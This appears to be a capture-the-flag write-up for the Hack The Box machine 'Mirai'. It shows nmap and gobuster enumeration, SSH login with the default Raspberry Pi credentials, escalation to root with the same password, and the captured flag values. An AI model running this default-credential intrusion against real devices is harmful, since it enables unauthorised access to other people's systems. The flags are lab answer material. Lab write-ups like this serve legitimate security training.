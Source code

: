 
![image](https://user-images.githubusercontent.com/105310322/187500795-e2801f1b-8201-400d-9017-01895b8492b9.png)

# Mirai

### Challenge: FullPWN

### Tools: nmap, gobuster, ssh

### Vulnerabilities: Pi-Hole, Default credentials

Nmap shows us there is a webpage open.

The page is blank but a connection is established.

```console
└──╼ [★]$ nmap -sC -A -sV 10.129.50.166
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 16:29 BST
Nmap scan report for 10.129.50.166
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

Running gobuster shows an admin and versions page we can check out.

```console
└──╼ [★]$ gobuster dir -u 10.129.50.166 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.50.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/30 16:33:18 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.129.50.166/admin/]
/versions             (Status: 200) [Size: 18]                                 
                                                                               
===============================================================
2022/08/30 16:33:31 Finished
===============================================================
```
Curl also reveals what the blank page is.

```console
└──╼ [★]$ curl -I 10.129.50.166
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Date: Tue, 30 Aug 2022 15:33:42 GMT
Server: lighttpd/1.4.35
```
Here we have the pi-hole admin page. This is our first hint that the page is being ran on a raspberry pi. Lets test some default credentials using the ssh port that nmap found.

![image](https://user-images.githubusercontent.com/105310322/187496695-09c93f38-309e-4c34-b6bf-847691968ea7.png)

A quick google search shows that the default credentials for a raspberry pi are User=pi and Pass=raspberry

Boom we are in pretty quickly!

```console
└──╼ [★]$ ssh pi@10.129.50.166
The authenticity of host '10.129.50.166 (10.129.50.166)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.50.166' (ECDSA) to the list of known hosts.
pi@10.129.50.166's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $ 
```
Full sudo power!? but before I tried that, I did su root with the same default password.

EASY DAY! Already got root and the user flag!

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ su root
Password: 
root@raspberrypi:/home/pi# 
```
```console
root@raspberrypi:/home/pi/Desktop# cat user.txt
ff837707441b257a20e32199d7c8838d
```

It was too good to be true :(
At least we got our next hint :)

The root.txt is hiding in a usb stick so lets see if we can find it.

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~# 
```
lsblk shows us where we can find the usbstick however there is not root.txt found in /media

The drive is located at /dev/sdb

```console
root@raspberrypi:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
root@raspberrypi:/# 
```
After using cat on sdb if pops alot of incomprehensible code but at the bottom we can see a string of characters resembling our root flag!

```console
root@raspberrypi:/dev# cat sdb
�|}*,.������+-���3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/dev# 
```

If using cat to read the sdb file did not work then my next option would have been to extract or mount the usb to try and read the files but luckily the important information was all there.

GG!
